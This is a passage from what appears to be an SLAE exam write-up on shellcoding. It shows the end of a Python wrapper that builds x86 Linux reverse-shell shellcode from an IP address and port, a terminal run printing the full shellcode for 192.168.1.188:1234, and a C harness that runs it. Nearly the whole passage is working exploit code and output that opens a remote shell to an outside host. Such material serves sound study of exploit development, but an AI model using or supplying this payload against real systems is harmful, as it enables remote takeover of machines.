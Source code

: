 ```python

portNumber = sys.argv[2]
portNumber = int(portNumber)
portNumber = socket.htons(portNumber)
portNumber = hex(portNumber)

portNum1 = portNumber[2:4]
portNum2 = portNumber[4:6]

portNum1 = str(portNum1)
portNum1 = "\\x" + portNum1

portNum2 = str(portNum2)
portNum2 = "\\x" + portNum2

combined = portNum2 + portNum1

shell = shell1 + newHex + shell2 + combined + shell3

		
print shell
```

Let's test out our wrapper!

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ python wrapper.py 192.168.1.188 1234
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\xc1\xa9\x02\xbd\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now, we paste this shellcode into our shellcode.c program

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\xc1\xa9\x02\xbd\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
